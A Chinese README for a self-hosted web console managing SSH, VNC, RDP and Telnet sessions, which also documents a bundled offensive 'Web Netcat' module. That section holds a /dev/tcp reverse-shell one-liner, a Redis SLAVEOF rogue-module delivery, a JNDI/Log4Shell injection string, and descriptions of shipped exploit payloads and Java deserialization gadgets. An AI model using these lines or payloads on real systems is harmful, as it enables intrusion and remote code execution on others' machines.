

# 远程连接管理器（Remote Connect Manager）

[](https://hub.docker.com/r/hktalent/remote-connect-manager)
[](https://hub.docker.com/r/hktalent/remote-connect-manager/tags)
[](LICENSE)

一个自托管的 Web 控制台，把分散的 SSH / VNC / RDP / Telnet 目标集中登记成卡片，点击卡片即可直接在浏览器里操作远程会话；每个卡片用该连接最后一次的界面截图作为背景，一眼就能看出每台机器当前的状态。



## 快速开始（Docker）

镜像已发布在 Docker Hub（`linux/amd64`，`latest` / `20261118` 两个 tag，同一 digest `sha256:6a7c9611…`），一条命令拉起（RDP / Telnet 另需 `guacd`，见「Docker 构建」）：

```bash
docker run -d --name remote-connect-manager \
  -p 8088:8080 \
  -p 8888:8888 -p 6379:6379 -p 1389:1389 -p 8090:8090 -p 1099:1099 \
  -e NETCAT_PUBLIC_HOST=192.168.0.135 \
  -v "$PWD/data:/app/data" \
  hktalent/remote-connect-manager:latest
```

打开 <http://localhost:8088> 即用；配置、密钥、截图与 Web Netcat 载荷都落在挂载的 `./data`。

## 项目介绍

日常要维护多台 Kali / Linux / Windows 主机时，配置散落在各个客户端里，每次都要重新翻 IP、端口、密钥。这个项目把「配置登记 + 一键连接 + 界面留影」做成一个页面：

- 后端 Go（Gin + gorilla/websocket），用 `golang.org/x/crypto/ssh` 直连 SSH，用 noVNC 协议代理 VNC，用 Guacamole 协议经 `guacd` 连接 RDP 与 Telnet。
- 前端纯静态（xterm.js / noVNC / guacamole-common-js），全部依赖本地化到 `web/vendor/`，通过 `embed.FS` 打进二进制，离线可用。
- 配置与密钥以 JSON 形式落盘到 `data/`，截图存 `data/screenshots/`，直接挂载卷即可迁移备份。

## 功能介绍

### 连接管理

- SSH / VNC / RDP / Telnet 四种类型统一登记：名称、主机、端口、用户名、分辨率、认证方式。
- 卡片网格展示；有截图时用最后界面图作背景，没有截图时显示类型图标。
- 卡片右上角提供「编辑配置」「删除」；点击卡片打开会话窗口。
- 会话中的连接卡片会高亮并标注「运行中」，用来区分正在使用的连接。

### SSH 会话

- 支持密钥登录与密码登录；密钥登录时可选择密钥库中的任意私钥。
- 自动扫描 `~/.ssh`：`id_rsa`、`id_rsa.pub`、`authorized_keys` 等文件在启动时自动导入密钥库，同名同内容跳过，同名不同内容自动加哈希后缀，避免覆盖。
- 交互式终端（xterm.js + PTY），窗口大小变化会把 `cols/rows` 同步给远端，`vim`、`htop`、`tmux` 都能正常使用。
- **终端自适应**：用 `ResizeObserver` 监听会话容器，浏览器窗口缩放、全屏切换、布局变化时自动重排并同步 PTY 行列数，不会出现内容溢出或留白。
- **系统剪贴板粘贴**：在会话里直接按 `Cmd+V`（macOS）/ `Ctrl+V`（Windows、Linux）即可粘贴，无需右键菜单；终端用 bracketed paste，`vim` 等全屏程序也不会错位。
- **终端复制**：用鼠标选中文本后按 `Cmd+C`（macOS）/ `Ctrl+Shift+C`（Windows、Linux）即可写入系统剪贴板；`Ctrl+C` 仍保留为发送 SIGINT。canvas 渲染的选区不是 DOM 选区，浏览器原生复制无法直接取到，所以由前端接管。VNC / RDP / Telnet 没有可选中的文本层，需要在远端桌面里复制，文本经剪贴板通道自动写回本地。

### 连接状态与重连

- 会话头部有状态灯：**连接中…**（黄，脉动）→ **已连接**（绿）→ **已断开**（红）。绿灯以**收到远端第一个字节**为准（WebSocket 打开不算连上），SSH 认证失败会直接红灯并打印 `[连接失败] 原因`；12 秒收不到任何输出会提示 `[连接超时]`，不会出现"绿灯但一片空白"。
- 断开后终端内会打印 `[连接已断开，点 ↻ 重连]`，同时工具栏出现 **↻** 重连按钮，点一下即用原配置重建 SSH 会话与 WebSocket，终端缓冲保留、命令历史照旧。
- **目录跟踪与还原**，三个来源依次校准（只有前两个是权威来源）：
  1. **提示符**里的路径——zsh/Kali 的两行提示符 `┌──(root)-[/home/kali]` + 下一行 `└─#`（换行、颜色控制符都能跨过）、`[~/work]$`（`~` 会按登录用户名展开成真实路径），bash 的 `user@host:/home/kali#`，以及精简 shell（alpine ash / busybox）的 `host:/etc#`（ANSI 颜色先剥离）；
  2. **`pwd` 的输出**——你敲 `pwd` 回车后，下一行绝对路径直接作为当前目录（比解析 `cd` 更可信）；
  3. **输入里的 `cd` 跟踪**——纯本地路径运算，只用于 SFTP 面板定位，不写「最后目录」。
  权威来源会把目录写进「最后已知目录」并落盘 `data/cwd.json`（断开、容器重启都还在），另存一份供 SFTP 面板定位用。
- **下次登录 / ↻ 重连自动回到上次目录**：shell 一吐出提示符（或输出静默 120ms、最迟 1.5s）后端就以**普通输入**的方式执行一条 `cd '<目录>'`（实测从 WebSocket 建立到命令发出约 70ms），只发这一条、只发一次，不做存在性探测、不清屏、不拼接其它命令。因此终端里只会看到这一条 `cd`（这是你要求的"推送执行"）；目录不存在时 shell 自己报错并停在 `$HOME`。
- 登录过程**不执行任何远端探测命令**：家目录起点按用户名本地推断（`root` → `/root`，其它 → `/home/<user>`），不再 `printf "$HOME"`、也不再 `cd && pwd` 校验。
- 后端每 30s 发一次 SSH `keepalive@openssh.com`，并对 WebSocket 每 30s Ping 一次，避免空闲被 NAT / 防火墙 / `sshd` 的 `ClientAlive*` 判定超时；保活失败会立刻关掉连接，让前端马上变红而不是"假连接"。

### SFTP 文件管理与端口转发

- **SFTP 文件管理**：SSH 会话工具栏点「🗂」打开面板，可浏览目录、进上级、直接输入路径跳转、下载文件、上传文件、新建目录、删除文件/目录。后端复用同一套密钥/密码认证，按需建立独立 SFTP 连接，用完即断。
- **打开即对齐 shell 的 pwd**：面板启动时先取该会话的当前目录——优先从**提示符**里的路径读取（如 zsh 的 `┌──(root)-[/home/kali]└─#`、`[~/work]$`，ANSI 颜色已剥离），其次用对输入里 `cd` 的跟踪结果；面板打开时**不再**为校验目录去远端执行 `cd && pwd`（少一次远端命令、也避免把半截路径回退成父目录）。
- **打开即定位到当前目录（对齐 `pwd`）**：面板打开时会向后端取该 SSH 会话的 shell 当前目录——后端从终端输入里解析 `cd`（支持 `cd`、`cd ~/x`、`cd -`、相对路径、引号、`&&`/`;` 串联，忽略方向键等 ESC 序列），再由远端执行 `cd <目录> && pwd` 校验成真实路径，**显示的就是 `pwd` 的输出**（符号链接保留你看到的写法）。目录已被删除时自动回退到最近存在的父目录；还没有会话记录（如 `tmux` 里切过目录）时回落到 `$HOME`。
- **命令历史面板**：SSH 会话头部点「🕘」打开，自动记录你在终端里执行过的命令（记录以回车时终端里实际显示的那一行为准，所以 Tab 补全、方向键回放的命令也是完整命令；行尾反斜杠续行、引号未闭合的多行命令会合并成一条完整命令，面板里以「多行」标记 + `⏎` 展示，单击填入的是带换行的原文）（**相同的命令只保留一份**，再次执行时移到最前，方便点击复用；默认保留最近 200 条，面板顶部可改成 10–2000），按连接分开存在浏览器 localStorage。单击某条把命令**填入**终端（不执行），`Shift+单击` 直接执行；支持单条 ✕ 删除、勾选后「删除选中(n)」批量删除、一键清空。批量删除同样是**异步摘行、不整表重绘**，无闪烁。
- **批量选择与删除**：每行行首复选框 + 表头全选（支持半选态），选中后工具栏出现「删除选中 (n)」，一次删除多个文件/目录；目录按递归删除（非空目录也能一次删掉）。
- **异步删除、界面不闪烁**：删除采用异步提交，成功后只把对应行从列表里摘掉，**不整表重绘**，因此没有闪烁、滚动位置和当前路径都不变，空目录时才切到「空目录」提示；批量里个别项失败不影响其余项，失败行标红、悬停文件名可看失败原因。
- **SSH 端口转发**：SSH 会话工具栏点「⇄」，弹窗内先选方向：
  - **正向（本地转发，等价 `ssh -L`）**：在**你本机/容器**开一个端口，流量经 SSH 送到**跳板机侧**的目标。例：目标 `127.0.0.1:3306`（MySQL）→ 宿主机访问 `localhost:20000` 即连到远端 MySQL。
    `ssh -L 20000:127.0.0.1:3306 user@跳板机`
  - **反向（远端转发，等价 `ssh -R`）**：在**跳板机**上开一个端口，流量经 SSH 回到**你本机/容器**的服务。例：远端监听 `8080`、本机目标 `127.0.0.1:3000` → 在跳板机上访问 `localhost:8080` 即到你本机 3000 端口。
    `ssh -R 8080:127.0.0.1:3000 user@跳板机`
  - 反向的远端端口由你指定；需要远端 sshd `AllowTcpForwarding yes`，若要让跳板机之外的机器访问还需 `GatewayPorts yes` 且监听地址填 `0.0.0.0`。
- 路由：`POST /api/tunnels`（`{connection_id, mode:"local"|"remote", remote_host, remote_port}` 或 `{..., listen_host, listen_port, local_host, local_port}`）、`GET /api/tunnels`、`DELETE /api/tunnels/:id`。
- 正向的本地端口取自 `TUNNEL_PORT_BASE`~`TUNNEL_PORT_MAX`（默认 20000-20010），Docker 已把该区间映射到宿主机，因此在宿主机用 `localhost:20000` 即可访问远端内网服务（MySQL、Redis、内部 Web 等）。
- 隧道随进程生命周期存在，重启应用后需重新创建；连接断开时会自动释放端口。
- **粘贴 / 拖拽上传（仅 SSH）**：把文件或文件夹从 Finder / 资源管理器拖进 SSH 会话窗口，或复制后在会话里按 `Cmd+V` / `Ctrl+V`，文件会直接落到远端当前目录，右下角浮层显示逐个上传的进度、成功数与失败原因。
  - 目标目录：文件面板（「🗂」）打开时用它的当前目录，否则用该账号的 home（`pwd` 语义，即 SFTP 的初始目录）。
  - 文件夹会递归上传并自动创建子目录；同名文件直接覆盖。
  - 粘贴优先判断剪贴板里是否有文件，有文件就上传、不当作文本粘贴；拖拽遮罩只在真正携带文件时出现。
  - 浏览器兼容性：拖拽在 Chrome / Edge / Safari 上支持文件与文件夹；Firefox 能拖文件但不支持文件夹（`webkitGetAsEntry` 缺失）；Chrome 对「Finder 里直接复制文件再粘贴」支持不稳定，推荐用拖拽。
  - VNC / RDP / Telnet 没有文件通道，在会话里粘贴文件会提示改用 SSH 或共享盘。
- **拖出下载**：文件面板里的文件名可直接拖到桌面或 Finder / 资源管理器中的文件夹，松手即落成文件。依赖浏览器的 `DownloadURL`，Chrome / Edge 支持，Safari / Firefox 不支持。
- **同步到本地目录**：点「同步到本地」，选一个本地文件夹，当前远端目录会递归写入其下的同名子目录（保留目录层级与空目录），右下角浮层显示进度与失败项，关闭浮层即取消。基于 File System Access API，仅 Chrome / Edge 可用（需 HTTPS 或 localhost），目录只写一次、不建立持续同步关系。

### 文件与剪贴板能力对比

| 能力 | SSH | RDP | VNC | Telnet |
| --- | --- | --- | --- | --- |
| 上传 | 拖拽 / 粘贴 / 「🗂」面板上传 | 「⇪」写入共享盘 | 无 | 无 |
| 下载 | 面板下载、拖出到桌面、同步到本地 | 共享盘面板下载、拖出、同步到本地 | 无 | 无 |
| 复制文本到本地 | 选中后 `Cmd+C` / `Ctrl+Shift+C` | 远端桌面内复制后自动写回 | 远端桌面内复制后自动写回 | 同 RDP |
| 本地文本粘贴到远端 | `Cmd+V` / `Ctrl+V` | 同左 | 同左 | 同左 |

> 浏览器不允许网页把任意文件 / 文件夹写入系统剪贴板，所以「在远端复制文件，再到本地 Finder / 资源管理器粘贴」在 Web 端无法实现；等价做法是文件面板的「拖出下载」和「同步到本地」。

### 密钥管理

- 密钥列表：名称、来源（哪个 `~/.ssh` 文件）、创建时间、公钥内容。
- 生成新密钥、导入密钥、重新扫描 `~/.ssh`、一键复制公钥。
- 密钥可编辑：改名称、改私钥正文、改公钥；改名会同步更新所有引用该密钥的连接配置，改正文会校验是否是合法私钥。
- 识别加密私钥（带 passphrase）：列表标记「（加密）」，连接时在密码栏填入口令即可。

### Web Netcat（端口监听 / 反弹 Shell / 特征应答）

浏览器里直接管理一组 TCP 监听端口：把接入的连接当成反弹 shell 终端操作，或按「请求特征 → payload」规则自动应答 Exp。

- **入口**：三种方式都能建监听 —— ①顶栏「+ 新建连接」把类型选成「Netcat 监听（Web Netcat）」，直接在弹窗里配监听端口、模式、自动命令集和规则；②顶栏「网络监听」弹窗里点「+ 新建监听」（高级参数更全）；③监听保存后会像其它连接一样出现在卡片区，卡片右侧可直接启停 / 编辑 / 删除，点卡片进监听详情和会话终端。
- **监听管理**：任意端口、任意模式，支持新建 / 编辑 / 启停 / 删除；配置持久化在 `data/netcat.json`，勾选「保存后立即启动」的监听在服务重启时会自动恢复。同一端口不允许被两个监听占用，绑定失败会在界面上显示原因。
- **浏览器终端**：每个接入连接都是一条会话，点「终端」即在网页里用 xterm 操作；进入时先回放该会话此前的输出（最长 512 KB），之后实时双向透传。终端下方还提供命令输入框，按回车即下发（无 WebSocket 时走 REST `exec`）。断开会话会立即关闭 TCP 连接。
- **自动命令集**（`shell` 模式）：连接建立后按配置自动下发命令，每行一条：
  - `id` —— 立即发送；
  - `uname -a | 300` —— 等 300 ms 再发；
  - `cat /etc/passwd @ \$` —— 等输出命中正则 `\$` 后再发（默认最多等 10 s）。
  - 命令会自动补换行；每条下发都会写进事件流水，便于复盘。
- **规则引擎（核心）**：一个监听可同时挂多条规则，任意一条命中即推送对应 payload：
  - 匹配方式：`contains`（子串，默认）、`prefix`（连接开头）、`suffix`、`regex`（正则）、`hex`（十六进制字节，如 `00 01 02`）；
  - 匹配窗口默认 4 KB，**跨 TCP 分片也能命中**（如先发 `exp.` 再发 `so`）；命中后清空窗口，同一段数据不会重复触发，新数据仍可再次命中；
  - 载荷来源：`text`、`base64`、`file`（引用 `data/netcat-payloads/` 下的文件，如 `exp.so`、`Exploit.class`、`gadget.jar`）；
  - 发送包装：原样发送，或 `bulk`（Redis 协议 `$<len>\r\n...\r\n`，用于下发模块 / RDB）；
  - 每连接命中次数上限、命中后延迟发送、发送完成是否主动断开，都可单独配置；
  - 所有命中与推送都记录在「事件」页签（时间、来源 IP、命中的规则、发送字节数）。
- **服务类型内置应答**（规则之外再叠加协议层应答，两者可同时生效）：

| 模式 | 内置行为 |
| --- | --- |
| `shell` | 反弹 shell 终端：浏览器交互 + 自动命令集 |
| `raw` | 只发 banner、按规则应答，适合蜜罐 / 通用端口 |
| `redis` | Rogue Server：`PING → +PONG`、`REPLCONF/AUTH/SELECT/... → +OK`、`INFO` 返回伪造信息、`PSYNC → +FULLRESYNC` 并下发默认 payload；配合规则（特征 `exp.so` / `PSYNC`，包装 `bulk`）即可完成 `exp.so` 模块投递 |
| `ldap` | 最小可用 LDAPv3：`BindRequest → success`，`SearchRequest → SearchResultEntry`（`javaClassName` / `javaFactory` / `javaCodeBase` / `javaReferenceAddress` / `javaSerializedData`）+ `SearchResultDone`；也可配置 Referral（`resultCode 10`）让客户端改连其它 LDAP/RMI |
| `rmi` | 回 `JRMI` 协议头，收到客户端数据后发送配置的原始载荷（base64 或文件），适合投递序列化 gadget |
| `http` | JNDI CodeBase 服务：按请求路径返回 `data/netcat-payloads/` 里的文件（`.class` 自动 `application/java-vm`、`.jar` 为 `application/java-archive`），未命中时返回配置的固定响应 |

- **Payload 文件管理**：界面右上「Payload 文件」可上传 / 删除二进制载荷，规则与服务应答按文件名引用，不用重启。
- **典型用法**：

```bash
# 1) 反弹 shell：监听 8888（shell 模式），目标机执行
bash -c 'bash -i >& /dev/tcp/<服务端IP>/8888 0>&1'

# 2) Redis Rogue：监听 6379（redis 模式），规则「exp.so 请求」→ 文件 exp.so，包装 bulk
#    受害机 redis-cli 执行 SLAVEOF <服务端IP> 6379 后，模块即被写入其工作目录

# 3) Log4Shell / JNDI：
#    - ldap 监听 1389：javaCodeBase=http://<服务端IP>:8081/
#    - http 监听 8081：serve_payload_dir=true，上传 Exploit.class
#    - 触发点注入 ${jndi:ldap://<服务端IP>:1389/Exploit}
```

#### 监听配置字段（`data/netcat.json`）

界面能配的东西都能直接改 JSON（改完刷新页面生效；运行中的监听会按新配置重启）：

```json
{
  "listeners": [
    {
      "name": "Redis Rogue（6379）",
      "bind": "0.0.0.0",
      "port": 6379,
      "mode": "redis",
      "auto_start": true,
      "rules": [
        { "name": "exp.so 请求", "enabled": true, "match_type": "contains",
          "pattern": "exp.so", "payload_type": "file", "payload_file": "exp.so",
          "wrap": "bulk", "delay_ms": 50, "close_after": true },
        { "name": "PSYNC 复制同步", "enabled": true, "match_type": "contains",
          "pattern": "PSYNC", "payload_type": "file", "payload_file": "exp.so", "wrap": "bulk" },
        { "name": "HELLO 探测", "enabled": true, "match_type": "hex",
          "pattern": "48 45 4c 4c 4f", "payload_type": "text", "payload": "+PONG\r\n" }
      ]
    }
  ]
}
```

监听（`listeners[]`）字段：

| 字段 | 说明 |
| --- | --- |
| `id` / `name` | 唯一 ID（自动生成）/ 显示名 |
| `bind` / `port` | 绑定地址（默认 `0.0.0.0`）/ 端口，1-65535，同一端口只能有一个监听 |
| `mode` | `shell` / `raw` / `redis` / `ldap` / `rmi` / `http` |
| `auto_start` | 服务启动时自动监听（含容器重启） |
| `banner` | 连接建立后立即发送的内容，支持 `\n` 转义 |
| `auto_cmds` | 仅 `shell`：`cmd`、`delay_ms`、`wait_for`（正则，等输出命中再发）、`max_wait_ms`（默认 10 s） |
| `rules` | 规则数组，见下表；一个监听可挂任意多条，命中互不影响 |
| `max_conns` / `initial_delay_ms` | 并发连接上限 / 首次发送前延迟 |
| `java_code_base` / `java_class_name` / `java_factory` | `ldap`：返回给客户端的 CodeBase 与类名，CodeBase 形如 `http://<IP>:<端口>/` |
| `jndi_ref_address` / `java_serialized_payload` / `ldap_referral` | `ldap`：`javaReferenceAddress` / `javaSerializedData`（base64）/ 非空则返回 Referral（resultCode 10） |
| `payload` / `payload_file` | `rmi`：收到客户端数据后发送的 base64 载荷或 payload 文件名（文件优先） |
| `http_status` / `http_content_type` / `http_body` / `serve_payload_dir` | `http`：固定响应，以及是否按请求路径从 payload 目录取文件 |

规则（`rules[]`）字段：

| 字段 | 说明 |
| --- | --- |
| `enabled` | 关掉即不参与匹配，配置保留 |
| `match_type` | `contains`（默认）/ `prefix` / `suffix` / `regex` / `hex` |
| `pattern` | 特征；`hex` 用空格分隔十六进制字节，如 `00 01 02` |
| `ignore_case` | 大小写不敏感（对 `contains` / `prefix` / `suffix` / `regex` 生效） |
| `window` | 参与匹配的滚动窗口字节数，默认 4096；跨 TCP 分片也能命中 |
| `payload_type` / `payload` / `payload_file` | `text` / `base64` / `file`（文件在 `data/netcat-payloads/`） |
| `wrap` | 空=原样发送；`bulk`=Redis 批量字符串 `$<len>\r\n<payload>\r\n` |
| `send_times` | 每条连接最多命中几次，`0`=不限 |
| `delay_ms` | 命中后延迟多少毫秒再发 |
| `close_after` | 发送完成后主动断开该连接 |

> 一个监听同时挂「`exp.so` 请求」和「`PSYNC`」两条规则，就是 Redis Rogue 投递模块的标准配法；再加一条 `hex` 规则即可兼容二进制协议探测。

#### 内置 Exp Payload（`payloads/`）

仓库自带一组可直接用的 exp 载荷，启动时自动复制到 `data/netcat-payloads/`（同名文件已存在则保留，不覆盖你上传的），规则 / LDAP / RMI 直接按文件名引用即可：

| 文件 | 用途 |
| --- | --- |
| `exp.so` | Redis Rogue 模块（x86-64 ELF，`MODULE LOAD ./exp.so` 后可用 `shell.exec "命令"`），随附 `exp.c.example` / `exp.so-README.md` |
| `Exploit.class` | JNDI 远程类（Log4Shell 等 LDAP/RMI 注入，CodeBase 直接下载执行） |
| `JNDIObject.class` / `FileDownloader.class` | LDAP Reference 的 ObjectFactory / 远程下载类 |
| `spark-rce.jar` / `yaml-rce.jar` | CodeBase 指向 jar 的场景（`javaCodeBase=.../jar` + `javaClassName`） |
| `cc1` / `cc6` / `cc9` / `cb1` | Java 反序列化 gadget（CommonsCollections / CommonsBeanutils），用于 RMI 模式直接发送 |
| `JRMPClient2_LdapUrl` | JRMPClient 载荷（让目标回连指定 LDAP） |

种子监听（首次启动生成；redis / ldap / http / rmi 默认自启，反弹 shell 需手动启动）：

| 端口 | 模式 | 已配置内容 |
| --- | --- | --- |
| 8888 | shell | 自动下发 `id` / `uname -a` / `pwd`，浏览器终端接管 |
| 6379 | redis | Rogue 应答 + 两条规则（`exp.so` 请求、`PSYNC`）→ 文件 `exp.so`、`bulk` 包装 |
| 1389 | ldap | JNDI Reference：`javaClassName/javaFactory=Exploit`，`javaCodeBase=http://$NETCAT_PUBLIC_HOST:8090/` |
| 8090 | http | JNDI CodeBase 文件服务（`/Exploit.class`、`/exp.so` 按路径返回） |
| 1099 | rmi | 回 `JRMI` 头后发送 `cc6` 序列化载荷（换成别的文件即换 gadget） |

- `NETCAT_PUBLIC_HOST`：生成 LDAP 的 `javaCodeBase` 用的对外主机，默认 `127.0.0.1`；容器/局域网打靶时在 `.env` 或环境里设成目标机能访问到的本机 IP，例如 `NETCAT_PUBLIC_HOST=192.168.0.123`。
- Docker 部署已映射 `8888 / 6379 / 1389 / 8090 / 1099` 与 `9000-9010`，换端口时同步改 `docker-compose.yml`。

> 监听端口是**对外开放的服务**：只在需要的网络环境里启停，用完即停；不要在没有防护的情况下把 shell / LDAP / Redis 监听暴露到公网。所有接入会话都能被任何打开本页面的人接管，请自行加访问控制（反向代理鉴权、VPN、安全组）。

### VNC / RDP / Telnet

- VNC 走 WebSocket 裸转发到 noVNC 客户端；服务器需要密码时自动使用配置里保存的密码。
- **VNC 画质调节**：连接配置里的「画质」提供 高清 / 均衡 / 流畅 三档，分别映射 noVNC 的 `qualityLevel` 与 `compressionLevel`（9/3、6/6、3/9），画面不缩放，只调整颜色精度与压缩强度，卡顿时选「流畅」。
- RDP / Telnet 由后端完成 Guacamole 握手（`select → args → size/image/video/audio/timezone → connect → ready`），前端只负责渲染与输入，`guacd` 由 compose 里的独立服务提供。
- **RDP 画质可调**：连接配置里的「画质」对应 RDP 色深，可选 24 位（高清）、16 位（推荐，省带宽）、8 位（极速）。分辨率不变，只降低颜色精度，带宽和卡顿随之下降；改完需重连生效。
- **优先有损编码**：握手时按 `image/webp → image/jpeg → image/png` 声明支持的格式，避免大块画面走 PNG 无损编码；同时设置 `force-lossless=false`。
- **RDP 文件传输**：开启共享盘（`drive-name=rcm`），会话工具栏出现「⇪」上传按钮，选中的文件会出现在远端的共享盘中——Windows 为 `\\tsclient\rcm`，xrdp 为 `~/thinclient_drives/rcm`。
- **共享盘下载**：RDP 会话工具栏点「🖴」打开「共享盘」面板，可浏览目录、下载文件（支持断点续传），文件也能直接拖到桌面或本地文件夹，或用「同步到本地」把当前目录整个写入本地文件夹。共享盘落地在 guacd 的 `drive-path`（默认 `/tmp/rcm-drive`），Docker 部署时与主程序共用宿主机 `./data/rdp-drive`；远端往共享盘写入文件后，点「刷新」即可看到并下载。guacd 若下发 Guacamole `file` / `filesystem` 推送指令，浏览器也会自动弹出下载（`onfile`、`onfilesystem` 均已接）。
- **双向剪贴板**：本地按 `Cmd+V` / `Ctrl+V` 通过 Guacamole clipboard 流把文本送入远端；远端复制的文本也会写回本地系统剪贴板（非 HTTPS 环境自动降级为 `execCommand`）。
- **声音**：握手声明 `audio/L16`、`audio/L8`，RDP 会话的声音在浏览器里直接播放（需先点击过会话画面，满足浏览器的自动播放策略）。
- **Telnet**：新增连接类型，默认端口 23，复用同一套 guacd 通道；配色、字号、`xterm-256color` 终端类型均已调好。Telnet 是明文协议，只建议在内网或隧道内使用。

### 会话窗口

- 缩放（`−` / `⟲` / `+`）、全屏（`⛶`）。
- **最小化（`↘`）**：把当前窗口等比例动画缩回该连接卡片的位置，连接**不中断**，卡片标记「运行中」；再点卡片即从卡片位置等比放大恢复原会话。
- **关闭（`✕`）**：先截图并等上传完成，再断开连接，随后自动刷新该卡片的背景图。

| 快捷键 | 作用 |
| --- | --- |
| `Cmd+V` / `Ctrl+V` | 粘贴文本；若剪贴板里是文件且当前为 SSH，则直接上传到远端当前目录 |
| `Cmd+C`（macOS）/ `Ctrl+Shift+C`（Windows、Linux） | 把终端选区写入系统剪贴板 |
| `Ctrl+C` | 照常发送 SIGINT，不会被复制逻辑拦截 |

### 卡片背景图

- 会话进行中每 2 秒检测一次画面是否变化（降采样指纹比对），有变化时**最短间隔 10 秒**上传一次并替换卡片背景；最小化到后台后仍持续更新。
- 截图统一降采样为 JPEG，服务端只保留每台连接的最新一张，长时间挂着也不会把磁盘写满。

## 特点

- **零客户端**：浏览器打开就能用，不需要在每台设备上装终端 / 远程桌面软件。
- **开箱即用**：启动时自动接管 `~/.ssh` 里的密钥，已有免密登录习惯无需改动。
- **离线可构建**：前端依赖与 Go 依赖都走 `vendor/`，`docker build` 不需要外网。
- **数据即文件**：JSON + 截图文件，备份就是拷 `data/` 目录，没有数据库依赖。
- **会话保活**：最小化只是「收进卡片」，SSH/远程桌面会话在后台继续跑，随时点开继续操作。
- **文件双向传输**：SSH 支持拖拽 / 粘贴上传、面板下载、拖出到桌面与整目录同步；RDP 通过共享盘同样能双向取文件。
- **剪贴板贯通**：文本可双向同步，终端选区能直接复制到系统剪贴板，粘贴也不需要右键菜单。
- **单二进制 + 内嵌前端**：`go build` 出一个可执行文件，前端资源打包在二进制内。

## 技术栈

| 层 | 技术 |
| --- | --- |
| 后端 | Go 1.21+、Gin、gorilla/websocket |
| SSH | `golang.org/x/crypto/ssh`（密钥/密码认证、PTY、WindowChange、端口转发） |
| SFTP | `github.com/pkg/sftp`（按需建立独立会话，复用同一套认证） |
| VNC | WebSocket ↔ TCP 裸转发 + noVNC 1.4 |
| RDP | Guacamole 协议隧道 + `guacd` 1.5.5 |
| Telnet | Guacamole 协议隧道 + `guacd` 1.5.5（终端渲染） |
| 前端 | 原生 JS、xterm.js 5.3（含 canvas 渲染器用于截图）、noVNC、guacamole-common-js |
| 存储 | JSON 文件（`data/connections.db`）+ 截图文件（`data/screenshots/`） |
| 部署 | Docker 多阶段构建 + docker compose |

## 目录结构

```
remote-connect-manager/
├── main.go                     # 路由、embed 前端、启动时自动导入 ~/.ssh 密钥
├── internal/
│   ├── config/                 # 连接配置 CRUD（JSON 持久化）
│   ├── keys/                   # 密钥库：扫描、生成、导入、编辑、加载签名器
│   ├── ssh/                    # SSH WebSocket + PTY 透传
│   ├── sftp/                   # SFTP 文件管理 API（列表 / 上传 / 下载 / 建目录 / 删除）
│   ├── tunnel/                 # SSH 端口转发（正向 ssh -L / 反向 ssh -R）
│   ├── vnc/                    # VNC WebSocket 裸转发
│   ├── rdp/                    # RDP / Telnet：guacd 握手与双向透传
│   ├── rdpdrive/               # RDP 共享盘浏览与下载 API
│   ├── netcat/                 # Web Netcat：端口监听、规则应答、反弹 shell 终端、LDAP/Redis/RMI/HTTP 应答
│   ├── screenshot/             # 截图落盘与旧图清理
│   └── testutil/               # 单元测试用的内存 SSH / SFTP 服务端
├── web/
│   ├── index.html              # 页面结构
│   ├── css/style.css
│   ├── js/app.js               # 卡片、配置弹窗、密钥弹窗、会话与截图逻辑
│   └── vendor/                 # xterm / noVNC / guacamole 本地化依赖
├── data/                       # 运行时数据（配置、截图、密钥），首次启动自动创建
├── payloads/                   # 随镜像发布的内置 Exp 载荷（首次启动复制到 data/netcat-payloads/）
├── vendor/                     # Go 依赖（离线构建）
├── .github/workflows/release.yml  # 推 v* 标签自动编译三平台二进制并发布
├── Dockerfile
├── docker-compose.yml
└── start.sh
```

## 编译

### 本地编译

需要 Go 1.21+。依赖已随仓库提供（`vendor/`），无需联网：

```bash
git clone https://github.com/hktalent/remote-connect-manager.git
cd remote-connect-manager

# 使用 vendor 离线构建
GOFLAGS=-mod=vendor go build -o remote-connect-manager .

# 可选：跑一下
PORT=8080 ./remote-connect-manager
```

> 若想更新依赖，可用 `GOFLAGS=-mod=mod GOPROXY=https://goproxy.cn,direct go mod tidy` 后再 `go mod vendor`。

### 跨平台发布（GitHub Actions）

仓库内置 [.github/workflows/release.yml](.github/workflows/release.yml)：**推送 `v*` 标签即自动编译并发布 Release**，产物是不依赖 Docker 的独立可执行文件。

```bash
git tag v1.0.0
git push origin v1.0.0
```

工作流会并行编译 5 个目标并上传到 Release：

| 平台 | 架构 | 产物 |
| --- | --- | --- |
| Linux | amd64 / arm64 | `remote-connect-manager_<版本>_linux_<arch>.tar.gz` |
| macOS | amd64（Intel）/ arm64（Apple Silicon） | `remote-connect-manager_<版本>_darwin_<arch>.tar.gz` |
| Windows | amd64 | `remote-connect-manager_<版本>_windows_amd64.zip` |

- 编译参数：`CGO_ENABLED=0`（纯静态、无 C 依赖）、`-trimpath`、`-ldflags "-s -w -X main.version=<标签>"`，前端 `web/` 由 `embed.FS` 打包进二进制。
- 也可以在 Actions 页面手动触发（`Release → Run workflow`），填一个版本号即可。
- 需要本地复现某个平台时：

```bash
GOOS=windows GOARCH=amd64 CGO_ENABLED=0 GOFLAGS=-mod=vendor \
  go build -trimpath -ldflags "-s -w -X main.version=v1.0.0" -o rcm.exe .
```

### Docker 构建

```bash
docker build -t remote-connect-manager:latest .
```

多阶段构建：`golang` 镜像里离线编译出静态二进制，再拷进 `debian:bookworm-slim`，镜像内只保留可执行文件、`web/`、`payloads/` 与启动脚本。

#### 打 tag 与推送镜像

```bash
docker tag remote-connect-manager:latest hktalent/remote-connect-manager:latest
docker tag remote-connect-manager:latest hktalent/remote-connect-manager:20261118

docker push hktalent/remote-connect-manager:latest
